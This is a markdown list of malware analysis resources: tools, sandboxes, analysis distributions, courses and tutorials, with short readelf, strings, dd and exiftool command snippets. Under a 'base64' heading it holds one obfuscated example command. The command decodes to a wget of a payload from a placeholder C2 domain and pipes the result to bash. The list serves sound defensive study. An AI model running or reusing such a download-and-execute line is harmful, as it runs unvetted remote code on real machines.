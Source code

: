 # Malware Analysis

- [BlobRunner](https://github.com/OALabs/BlobRunner) - Quickly debug shellcode extracted during malware analysis.
- [Dangerzone](https://github.com/firstlookmedia/dangerzone) - Take potentially dangerous PDFs, office documents, or images and convert them to a safe PDF.
- [emnux-a-tool-for-reverse-engineering-malware](https://infoupdatesection.wordpress.com/2017/04/08/remnux-a-tool-for-reverse-engineering-malware/)
- [elf-malware-analysis-101-initial-analysis](https://www.intezer.com/blog/linux/elf-malware-analysis-101-initial-analysis/)
- [Awesome Malware Analysis](https://github.com/rshipp/awesome-malware-analysis#honeypots)
- [CyberChef](https://github.com/gchq/cyberchef) - The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  - [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)
- [DrSemu](https://github.com/secrary/DrSemu) - Sandboxed Malware Detection and Classification Tool Based on Dynamic Behavior.
- [HashDB](https://github.com/OALabs/hashdb) - Assortment of hashing algorithms used in malware.
- [Malduck](https://github.com/CERT-Polska/malduck) - 🦆 Malduck is your ducky companion in malware analysis journeys.
  - [Learn how to fix PE magic numbers with Malduck](https://0xc0decafe.com/fix-pe-magic-numbers-with-malduck/)
- [SSMA](https://github.com/secrary/SSMA) - Simple Static Malware Analyzer [This project is not maintained anymore]
- 

## Collections of good materials (pdfs, tutorials and so on)
- [Complete Malware Analysis Tutorials, Cheatsheet](https://gbhackers.com/malware-analysis-cheat-sheet-and-tools-list/)A Complete Malware Analysis Tutorials, Cheatsheet & Tools list for Security Professionals.
- [Malware Analysis - CSCI 4976](https://github.com/RPISEC/Malware) - Course materials for Malware Analysis by RPISEC.
- [Modern Binary Exploitation - CSCI 4968](https://github.com/RPISEC/MBE) - Course materials for Modern Binary Exploitation by RPISEC.
- [PMAT-labs](https://github.com/HuskyHacks/PMAT-labs) - Labs for Practical Malware Analysis & Triage.

## Compression
- [aPLib](https://ibsensoftware.com/products_aPLib.html) - compression library.
  - [The malware analyst’s guide to aPLib decompression](https://0xc0decafe.com/malware-analysts-guide-to-aplib-decompression/)

## Decryption and Deobfuscation
- [Binary Refinery](https://github.com/binref/refinery) - High Octane Triage Analysis.
#### base64
````
echo d2dldCBodHRwOi8vc29tZW5vbmV4aXRpbmdjbmNbLl1jb20vbWFsd2FyZS5hcHA=|base64 -d |bash;
````
## Diff
- [VBinDiff - Visual Binary Diff](https://github.com/madsen/vbindiff) - Visual Binary Diff (VBinDiff) displays files in hex & ASCII and can highlight the differences between 2 files.

## Disk Image
````powershell
dd if=/dev/sda3 of=$IMAGE_FILE
mount -o loop,ro $IMAGE_FILE /mnt
````

## Entropy
- [read later](https://reverseengineering.stackexchange.com/questions/21555/what-is-an-entropy-graph/21558)

## Frameworks and other analysis systems
- [Analyzer](https://github.com/qeeqbox/analyzer) - ☣️ Offline Analyzer for extracting and visualizing features, artifacts and IoCs from files and memory dumps (Windows, Linux, Android, iPhone, Blackberry, macOS binaries, emails and more).
- [Detect It Easy (DIE) tool](https://ntinfo.biz/index.html) - DIE is a signature-based tool that detects a file’s compiler, linker, packer, and more.
- [DRAKVUF Sandbox](https://github.com/CERT-Polska/drakvuf-sandbox) - DRAKVUF Sandbox - automated hypervisor-level malware analysis system.
- [Hybrid-Analysis](https://www.hybrid-analysis.com) - free malware analysis service for the community that detects and analyzes unknown threats using a unique Hybrid Analysis technology.
- [Karton](https://github.com/CERT-Polska/karton) - Distributed malware processing framework based on Python, Redis and MinIO.
  - [Karton : Distributed Malware Processing Framework Based On Python, Redis And MinIO](https://kalilinuxtutorials.com/karton)
- [Koodous](https://koodous.com)
- [Malwoverview](https://github.com/alexandreborges/malwoverview) - Malwoverview is a first response tool used for threat hunting and offers intel information from Virus Total, Hybrid Analysis, URLHaus, Polyswarm, Malshare, Alien Vault, Malpedia, ThreatCrowd, Valhalla, Malware Bazaar, ThreatFox, Triage and it is able to scan Android devices against VT and HA.
- [Virustotal](virustotal.com) - Analyze suspicious files and URLs to detect types of malware, automatically share them with the security community 
  ### Selfhosted
  - [Cuckoo](https://github.com/cuckoosandbox/cuckoo) - Cuckoo Sandbox is an automated dynamic malware analysis system 


## DNS
- [MINI-DNS-Server](https://github.com/alexsilva/MINI-DNS-Server) - Resolve domain names and saves the ips in a database (cache). 

## Elf - Executable and Linkable Format
- Formats: so, o, elf, puff, ko, mod, bin, axf, prx or none
- [ELFkickers](https://github.com/BR903/ELFkickers) - A collection of programs that access and manipulate ELF files.
- [Extracting Linux ELF binaries](https://github.com/extremecoders-re/pyinstxtractor/wiki/Extracting-Linux-ELF-binaries) - Pyinstxtractor as of now can natively extract Pyinstaller generated ELF binaries (in the same way as Windows exe) without requiring additional tools.
- [Extrude](https://github.com/liamg/extrude) - 🕵️ Analyse binaries for missing security features, information disclosure and more...
- [M0der_p4cker](https://github.com/n4sm/m0dern_p4cker) - Just a modern packer for elf binaries ( works on linux executables only ) 
- [XELFViewer](https://github.com/horsicq/XELFViewer) - ELF file viewer/editor for Windows, Linux and MacOS.
````
ldd                                           #displays libraries used
ldd /bin/executable
readelf
readelf /bin/executable                       #displays info about ELF files
readelf -h training-sample                    #ELF Header
readelf -s training-sample
readelf -s training-sample | grep OBJECT
readelf -s training-sample | grep FUNC
readelf -s training-sample | grep FILE
````

## Fuzzy hashing
- [SSDeep](https://github.com/ssdeep-project/ssdeep) - Fuzzy hashing API and fuzzy hashing tool . [ssdeep-project.github.io](https://ssdeep-project.github.io/ssdeep/index.html)

## Images
Exif - _Exchangeable image file format (officially Exif, according to JEIDA/JEITA/CIPA specifications) is a standard that specifies the formats for images, sound, and ancillary tags used by digital cameras (including smartphones), scanners and other systems handling image and sound files recorded by digital cameras. [Wiki Exif](https://en.wikipedia.org/wiki/Exif)_
- [ExifTool](https://exiftool.org)
````powershell
 exiftool IMG.CR2
````

## Network Traffic Analysis
- [flare-fakenet-ng](https://github.com/fireeye/flare-fakenet-ng) - Next Generation Dynamic Network Analysis Tool.
- [Netsniff-ng](https://github.com/netsniff-ng/netsniff-ng) - A Swiss army knife for your daily Linux network plumbing.
- [NetworkMiner](https://www.netresec.com/?page=Networkminer) - open source Network Forensic Analysis Tool (NFAT) for Windows (but also works in Linux / Mac OS X / FreeBSD).
- [Pcap files and malware samples](https://malware-traffic-analysis.net) - Since the summer of 2013, this site has published over 1,600 blog entries about malicious network traffic.  Almost every post on this site has pcap files or malware samples (or both).

## Setup
- [DetectionLab](https://github.com/clong/DetectionLab) - Automate the creation of a lab environment complete with security tooling and logging best practices.

### Operating Systems
- [FireEye's ThreatPursuit-VM](https://github.com/fireeye/ThreatPursuit-VM) - A fully customizable, open-sourced Windows-based distribution focused on threat intelligence analysis and hunting designed for intel and malware analysts as well as threat hunters to get up and running quickly.
- [Flare-vm](https://github.com/fireeye/flare-vm) - a fully customizable, Windows-based security distribution for malware analysis, incident response, penetration testing, etc.
  - [Installation](https://www.fireeye.com/blog/threat-research/2018/11/flare-vm-update.html)
- [REMnux](https://remnux.org) - REMnux® is a Linux toolkit for reverse-engineering and analyzing malicious software. REMnux provides a curated collection of free tools created by the community. Analysts can use it to investigate malware without having to find, install, and configure the tools. Lots of tools in /opt/ folder.
- [Santoku Linux](https://github.com/santoku/Santoku-Linux) - _Linux Distro for Mobile Security, Malware Analysis, and Forensics [santoku-linux.com](https://santoku-linux.com)._

## Strings
Commands
````
strings training-sample > str.txt
strings -w maliciousfile.o | less
sudo strings /dev/mem | less
````
- [AMSITrigger](https://github.com/RythmStick/AMSITrigger) - The Hunt for Malicious Strings.

## Tutorials and practise
- [Malware-traffic-analysis.net](https://malware-traffic-analysis.net) - A source for pcap files and malware samples.
- [Php-malware-analysis by bediger4000](https://github.com/bediger4000/php-malware-analysis) - Deobfuscation and analysis of PHP malware captured by a WordPress honey pot.
- [Reverse-php-malware ProTechEx](https://github.com/ProTechEx/reverse-php-malware) - An aid to de-obfuscating PHP malware.
- [Volume 0x1: Analysis](https://taomm.org/vol1/pdfs.html)
- [Wireshark Tutorial: Examining Traffic from Hancitor Infections](https://unit42.paloaltonetworks.com/wireshark-tutorial-hancitor-followup-malware/)
-  [pan-unit42 - wireshark-tutorial-Hancitor-traffic](https://github.com/pan-unit42/wireshark-tutorial-Hancitor-traffic) -  zip archives of pcaps for Wireshark tutorial about examining Hancitor infection traffic. Password is `infected`.

## Unpackers
- [Python-exe-unpacker](https://github.com/countercept/python-exe-unpacker) - A helper script for unpacking and decompiling EXEs compiled from python code. 
- [Unpacker Karton Service](https://github.com/c3rb3ru5d3d53c/karton-unpacker) - A modular Karton Framework service that unpacks common packers like UPX and others using the Qiling Framework. 
